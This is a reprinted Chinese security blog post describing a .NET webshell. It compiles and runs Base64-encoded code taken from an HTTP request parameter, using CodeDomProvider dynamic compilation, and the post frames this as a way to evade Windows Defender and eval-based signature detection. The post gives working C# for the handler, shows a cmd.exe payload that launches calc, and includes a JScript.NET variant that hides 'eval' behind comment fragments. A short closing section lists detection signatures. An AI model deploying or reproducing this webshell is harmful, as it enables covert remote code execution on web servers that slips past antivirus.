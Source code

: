 ```yaml
---
title: 基于.NET动态编译技术实现任意代码执行
slug: be-based-on-dotNet-dynamic-compilation-technology-to-realize-arbitrary-code-execution
description: .Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类
date: 2022-05-15 23:15:14
copyright: Reprinted
author: Ivan1ee dotNet安全矩阵
originalTitle: 基于.NET动态编译技术实现任意代码执行
originalLink: https://mp.weixin.qq.com/s/eZgnxEihQu-KULLeLJatCw
draft: False
cover: https://img1.dotnet9.com/2022/05/cover44.gif
categories: .NET
tags: 动态编译
---
```


![](https://img1.dotnet9.com/2022/05/cover44.gif)

## 一、前言

当下主流的 Waf 或 Windows Defender 等终端杀软、EDR 大多都是从特征码查杀，在.Net 和 VBS 下一句话木马中最常见的特征是 eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开 eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的 CodeDomProvider 类下手实现动态编译.NET 代码，指明 JScrip 或者 C#作为编译语言，编译的 WebShell 目前`Windows Defender不会查杀`。而防御者从流量或终端识别 "CodeDomProvider.CreateProvider、CreateInstance"等特征码。

## 二、动态编译

.Net 可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类`CodeDomProvider` 和 `CompilerParameters`，前者相当于编译器，后者相当于编译器参数，CodeDomProvider 支持多种语言（如 C#、VB、Jscript），编译器参数 CompilerParameters.GenerateExecutable 默认表示生成 dll，`GenerateInMemory= true`时表示在内存中加载，CompileAssemblyFromSource 表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过 CreateInstance 实例化对象并反射调用自定义类中的方法。

```csharp
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

## 三、落地实现

上述代码里的 SourceText 方法需提供编译的 C#源代码，笔者创建了 NeteyeInput 类，如下

```csharp
public static string SourceText(string txt)
{
    StringBuilder sb = new StringBuilder();
    sb.Append("using System;");
    sb.Append(Environment.NewLine);
    sb.Append("namespace  Neteye");
    sb.Append(Environment.NewLine);
    sb.Append("{");
    sb.Append(Environment.NewLine);
    sb.Append("    public class NeteyeInput");
    sb.Append(Environment.NewLine);
    sb.Append("    {");
    sb.Append(Environment.NewLine);
    sb.Append("        public void OutPut()");
    sb.Append(Environment.NewLine);
    sb.Append("        {");
    sb.Append(Environment.NewLine);
    sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
    sb.Append(Environment.NewLine);
    sb.Append("        }");
    sb.Append(Environment.NewLine);
    sb.Append("    }");
    sb.Append(Environment.NewLine);
    sb.Append("}");
    string code = sb.ToString();
    return code;
}
```

类里声明了 OutPut 方法，该方法里通过 Base64 解码得到输入的原生字符串，笔者在这里以计算器作为演示，将`“System.Diagnostics.Process.Start("cmd.exe","/c calc");”`编码为

```shell
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序 ProcessRequest 方法中调用

```csharp
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    if (!string.IsNullOrEmpty(context.Request["txt"]))
    {
        DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
        context.Response.Write("Execute Status: Success!");
    }
    else
    {
        context.Response.Write("Just For Fun, Please Input txt!");
    }
}
```

![](https://img1.dotnet9.com/2022/05/4401.png)

## 四、其他方法

Jscript.Net 动态编译拆解 eval

在.NET 安全领域中一句话木马主流的都是交给 eval 关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要`避开eval`，而在.NET 中 eval 只存在于 Jscript.Net，所以需要将动态编译器指定为 Jscript，其余和 C#版本的动态编译基本一致，笔者通过插入无关字符将 eval 拆解掉，代码如下

```csharp
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串“/_@Ivan1ee@_/”，最后编译后反射执行目标方法。

```csharp
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

## 五、防御措施

- 一般 web 应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance 等等，一旦告警需格外关注；

- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下 dll 文件内容的监控；

- 文章涉及的代码已经打包在: [https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)
